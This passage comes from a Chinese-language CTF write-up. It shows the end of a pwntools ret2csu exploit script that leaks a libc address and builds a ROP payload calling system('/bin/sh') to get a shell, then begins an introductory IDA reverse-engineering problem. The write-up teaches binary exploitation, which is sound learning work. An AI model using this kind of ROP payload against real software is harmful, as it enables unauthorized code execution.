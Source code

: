```python
print(function_name + "_func_addr =",hex(write_addr))

# p.interactive() #can can need

#注入system函数
libc_base = write_addr - write_offset
payload = b'\x00'*stack_len + p64(ret_address) + p64(pop_rdi) + p64(libc_base + str_bin_sh_offset) + p64(libc_base + system_offset)

p.sendline(payload)
p.interactive()
```

#### 总结

- 栈溢出
	- 中级栈溢出
		- ret2csu

ret2csu 模板题



## Reverse

### [初见IDA](https://www.nssctf.cn/team/problem/6236)

#### 题目描述

***很多东西都是不能后悔的，编程是吗***

我们都学过如何将我们编写的C语言代码变成程序，可是你知道怎么把程序边回C语言代码吗？

#### 解题思路

首先，使用 ExeinfoPE 查壳：

<img src="BestiCTF S1 Week14.assets/image-20241216192351890.png" alt="image-20241216192351890" style="zoom:50%;" />
